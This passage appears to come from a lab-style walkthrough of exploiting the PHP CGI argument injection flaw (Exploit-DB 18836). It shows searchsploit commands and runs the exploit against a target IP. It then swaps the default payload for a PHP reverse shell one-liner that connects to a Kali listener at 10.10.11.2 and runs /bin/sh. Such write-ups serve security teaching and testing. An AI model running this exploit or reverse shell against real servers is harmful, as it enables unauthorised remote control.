 Version lower that 5.3.1 are vulnerable to a command injection attack, or remote code execution attack.

You can also search for the exact PHP version.

```
searchsploit php cgi
```

```
searchsploit -m 18836
```

```
vim 18836.py
```

These specific version of PHP are vulnerable to CGI argument injection exploit.

[PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection](https://www.exploit-db.com/exploits/18836)

And in terms of the exploit code itself, it will inject PHP code for execution. 

```php
pwn_code = """<?php phpinfo();?>""" 
```

That is the exploit code here that we need to modify. By default, the default PHP command that has been specified here will simply print out the PHP information that we were able to enumerate from the web server.

What this means is that we can execute PHP code, and we can obtain a reverse shell by utilizing a PHP reverse shell one-liner.

```
python2 18836.py
python2 18836.py 10.2.19.172 80
```

The code specified within the PHP brackets here is phpinfo. And it prints out the exact version of PHP.

We can modify the pwn_code to provide us with a reverse shell. 

```
vim 18836.py
```

[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)

```php
$sock=fsockopen("IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");
```

I've copied over the PHP reverse shell one-liner. And this PHP code will connect to our listeners. It's then going to execute a Bourne shell session. And we have the descriptors right over here. So if this doesn't work, then we can modify the descriptors from 3 to 4, or maybe 5.

Kali Linux : 10.10.11.2

```php
$sock=fsockopen("10.10.11.2",1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

